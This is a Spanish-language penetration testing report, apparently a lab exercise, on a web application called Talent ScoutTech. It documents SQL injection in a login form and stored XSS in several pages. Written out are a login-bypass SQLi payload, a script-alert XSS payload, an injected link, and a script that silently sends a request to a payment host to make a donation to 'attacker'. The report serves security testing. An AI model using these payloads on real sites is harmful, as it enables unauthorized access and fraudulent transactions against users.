 # Informe de Pentesting

## Introducción

Este informe detalla los resultados de un pentesting realizado sobre la aplicación web **Talent ScoutTech**. Durante las pruebas se identificaron vulnerabilidades críticas, específicamente relacionadas con **inyección SQL (SQLi)** y **cross-site scripting (XSS)**, las cuales podrían comprometer la confidencialidad, integridad y disponibilidad de la aplicación. En este documento se describen las vulnerabilidades detectadas, los métodos utilizados para explotarlas, y ejemplos prácticos de los posibles impactos.

---

## Vulnerabilidades Detectadas

### 1. Inyección SQL (SQLi)

#### Descripción
En el formulario de inicio de sesión de la página `list_players.php`, se detectó una vulnerabilidad de inyección SQL en el campo `User`. La consulta SQL generada es susceptible de ser manipulada por un atacante para acceder a datos sensibles o autenticarse como un usuario válido sin conocer la contraseña.

#### Ejemplo de Explotación
1. **Paso 1:** Introducir el carácter `"`.
   - **Resultado:** La aplicación muestra un error que evidencia la vulnerabilidad:
     ![Imagen 1](/img/1.png)

   - Mensaje de error devuelto tras pulsar en "Login":
     ![Imagen 2](/img/2.png)

2. **Consulta Vulnerable:**
   ```php
   SELECT userId, password FROM users WHERE username = 'user_input' AND password = 'password_input'
   ```

3. **Ataque de Diccionario:**
   Para explotar la vulnerabilidad, se utilizó el siguiente payload en el campo `User`:
   ```
   " OR password="1234" --
   ```

   - **Resultado:** Autenticación exitosa con una contraseña válida encontrada en un diccionario.
     ![Imagen 3](/img/3.png)

4. **Identificación del Usuario:**
   Para conocer el nombre del usuario autenticado, se introdujo un comentario en uno de los jugadores. Al visualizar el comentario, se pudo determinar el nombre del usuario autenticado:
   - Comentarios antes del ataque:

     ![Imagen 6](/img/6.png)

   - Nuevo comentario:

     ![Imagen 7](/img/7.png)

   - Comentarios actualizados:
   
     ![Imagen 8](/img/8.png)

   - **Nombre del usuario identificado:** `luis`.

---

### 2. Cross-Site Scripting (XSS)

#### Descripción
Se identificaron múltiples puntos en la aplicación web donde es posible inyectar código JavaScript malicioso que se ejecuta al ser visualizado por otros usuarios. Esto permite ataques como robo de cookies, redirección a sitios maliciosos y ejecución de scripts en segundo plano.

#### 2.1. XSS en `add_comment.php`

1. **Payload Utilizado:**
   ```html
   <script>alert('¡Vulnerabilidad XSS!');</script>
   ```

2. **Explotación:**
   - Payload inyectado en el campo de comentarios:

     ![Imagen 9](/img/9.png)

   - Al visualizar el comentario, se ejecuta el código malicioso:

     ![Imagen 10](/img/10.png)

   - **Resultado:** Se muestra una alerta en el navegador:
   
     ![Imagen 11](/img/11.png)

#### 2.2. XSS en `insert_player.php`

1. **Vulnerabilidad en el campo `team`:**
   - Captura previa a la inyección:

     ![Imagen 13](/img/13.png)

2. **Payload Utilizado:**
   ```html
   <br><br><br>
   <a href="http://web.pagos/donate.php?amount=100&receiver=attacker">Profile</a>
   ```

3. **Explotación:**
   - Al enviar el formulario, el botón se renderiza en la página:

     ![Imagen 15](/img/15.png)

#### 2.3. XSS en `buscador.html`

1. **Descripción:**
   Se utilizó un payload para realizar una donación automática en segundo plano sin la intervención del usuario.

2. **Payload Utilizado:**
   ```html
   <script>
     var xhr = new XMLHttpRequest();
     xhr.open("GET", "http://web.pagos/donate.php?amount=100&receiver=attacker", true);
     xhr.send();
   </script>
   ```

3. **Explotación:**
   - Payload insertado en un comentario:

     ![Imagen 16](/img/16.png)

   - **Resultado:** El script se ejecuta automáticamente al cargar los comentarios, iniciando una solicitud HTTP en segundo plano:
     ![Imagen 17](/img/17.png)

---

## Conclusión

El análisis evidenció múltiples vulnerabilidades críticas que podrían comprometer la seguridad de la aplicación **Web_Talent-ScoutTech**. Las vulnerabilidades de inyección SQL y XSS nos permiten obtener acceso no autorizado, ejecutar scripts maliciosos, y potencialmente manipular los datos sensibles de los usuarios.
